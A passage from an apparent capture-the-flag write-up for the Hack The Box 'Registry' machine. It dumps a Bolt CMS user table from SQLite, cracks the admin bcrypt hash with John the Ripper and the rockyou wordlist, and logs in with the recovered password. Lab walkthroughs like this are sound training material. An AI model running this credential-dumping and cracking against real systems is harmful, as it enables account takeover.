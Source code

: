 {% highlight SQL %}
sqlite> select * from bolt_users;
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2020-03-09 03:46:01|10.10.15.237|Admin|["files://leax.php"]|1||||0||["root","everyone"]
sqlite> 
{% endhighlight %}

It looks like there is a user "admin" and a password hash in the record. Use whichever is your favorite password cracker for this, mine is John The Ripper.

## Bolt user credential cracking with John The Ripper
Start by copying the hash into a text file. Then use the command to call john on it with `john --wordlist=/usr/share/wordlists/rockyou.txt bolt.admin.hash`.

{% highlight console %}
~/htb/registry ᐅ sudo john --wordlist=/usr/share/wordlists/rockyou.txt bolt.admin.hash
[sudo] password for kali: 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
strawberry       (?)
1g 0:00:00:08 DONE (2020-03-10 21:54) 0.1153g/s 37.71p/s 37.71c/s 37.71C/s strawberry..dennis
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Turns out the password is cracked right away as "strawberry". Just use "admin" and "strawberry" to login at the prompt on the app page.